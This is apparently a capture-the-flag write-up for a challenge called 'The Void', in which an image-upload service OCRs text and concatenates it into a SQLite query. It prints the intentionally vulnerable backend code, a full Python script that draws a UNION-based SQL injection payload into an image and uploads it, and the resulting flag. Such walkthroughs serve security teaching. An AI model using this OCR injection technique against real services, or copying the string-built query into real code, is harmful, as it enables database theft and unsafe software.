 # The Void

The chall was hosting a web application in which it was possible to upload images. In the backend, an ocr application analysed the uploaded images and sent an sql query based on the finding. 

```python
#{Redacted}
def ocr_db(image_path):
    try:
        text = pytesseract.image_to_string(Image.open(image_path), config='--psm 4')
        cleaned = text.strip().replace("\n", "").replace("\"", "'").replace("‘", "'").replace("’", "'").lower()
        # Cleaning up weird OCR things
        con = sqlite3.connect('file:void.db?mode=ro', uri=True)
        cur = con.cursor()
        res = cur.execute("SELECT image, count FROM snacks WHERE name = '" + cleaned + "'")
        return(str(res.fetchall()))
    except sqlite3.Error as e:
        # Print the error message
        return(f"SQLite error occurred: {e}")
    except Exception as e:
        # Handle any other general errors
        return(f"An unexpected error occurred: {e}")
#{REDACTED}
```

So basically, what we needed to do was to write an sql injection inside an image, send the file and analyse the output sent by the application. An example of what the image could look like:

![](./example.jpg)

The tricky part was finding an sqli that didn't trigger an sql error as the ocr program didn't parse text very well. I lost some time trying to find all the tables of the database but that wasn't needed as `snacks` were the only one used. The same applied for the column names XD, there was no need trying to find others. Finally, just retrieving the whole content of the `name` column was enough to retrieve the flag.

Here's the script that helped us solve this:

```python
from PIL import Image, ImageDraw, ImageFont
import io
import requests
import ast
from datetime import datetime
from bs4 import BeautifulSoup
import pytesseract


def create_image_with_text(text, font_size=16, image_size=(800, 600), bg_color=(210, 180, 140), text_color=(0, 0, 0)):
    """
    Creates an image with the given text on a cardboard-like background and saves it locally.
    
    Args:
        text (str): The SQL injection payload to write on the image.
        font_size (int): Size of the font.
        image_size (tuple): Width and height of the image in pixels.
        bg_color (tuple): RGB color for the background (tan/cardboard-like).
        text_color (tuple): RGB color for the text.
    
    Returns:
        BytesIO: A buffer containing the image in JPEG format.
    """
    # Create a new image with a tan background
    img = Image.new('RGB', image_size, color=bg_color)
    draw = ImageDraw.Draw(img)
    
    # Load a monospaced font for better OCR recognition
    try:
        font = ImageFont.truetype("DejaVuSansMono.ttf", font_size)
    except OSError:
        try:
            font = ImageFont.truetype("cour.ttf", font_size)  # Alternative monospaced font
        except OSError:
            print("Monospaced font not found, using default font")
            font = ImageFont.load_default()
    
    # Center the text on the image
    text_bbox = font.getbbox(text)
    text_width = text_bbox[2] - text_bbox[0]
    text_height = text_bbox[3] - text_bbox[1]
    position = ((image_size[0] - text_width) // 2, (image_size[1] - text_height) // 2)
    
    # Draw the text onto the image
    draw.text(position, text, fill=text_color, font=font)
    
    #For debugging
    timestamp = datetime.now().strftime("%Y%m%d_%H%M%S")
    filename = f"injection_{timestamp}.jpg"
    img.save(filename, format='JPEG')
    print(f"Image saved as: {filename}")
    text = pytesseract.image_to_string(Image.open(filename), config='--psm 4')
    cleaned = text.strip().replace("\n", "").replace("\"", "'").replace("‘", "'").replace("’", "'").lower()
    print(cleaned)
    
    # Save the image to a bytes buffer for upload
    buf = io.BytesIO()
    img.save(buf, format='JPEG')
    buf.seek(0)
    return buf

def upload_image_and_get_response(payload, url):
    """
    Uploads an image with the given payload to the server and returns the response.
    
    Args:
        payload (str): The SQL injection payload to embed in the image.
        url (str): The server URL to upload the image to.
    
    Returns:
        dict: The JSON response from the server, or None if the upload fails.
    """
    image_buf = create_image_with_text(payload)
    files = {'file': ('injection.jpg', image_buf, 'image/jpeg')}
    try:
        response = requests.post(url, files=files)
        if response.status_code == 200:
            return response
        else:
            print(f"Upload failed with status {response.status_code}")
            return None
    except Exception as e:
        print(f"An error occurred: {e}")
        return None

def main():
    url = 'https://void-974780027560.us-east5.run.app/upload'
    
    table_payload = "t' union SELECT GROUP_CONCAT(name),1 FROM snacks /*"
    print(table_payload.strip().replace("\n", "").replace("\"", "'").replace("‘", "'").replace("’", "'").lower()) #For debugging
    response = upload_image_and_get_response(table_payload, url)

    if response.status_code == 200:
        print(response.json().get("data"))
    else:
        print(f"Failed to retrieve the page. Status code: {response.status_code}")
    
if __name__ == "__main__":
    main()
```

`[('wctf{the_v01d_hungers_4_m0r3_paper_plates_8626946984},dominos,littlecaesars,pizzahut', 1)]`
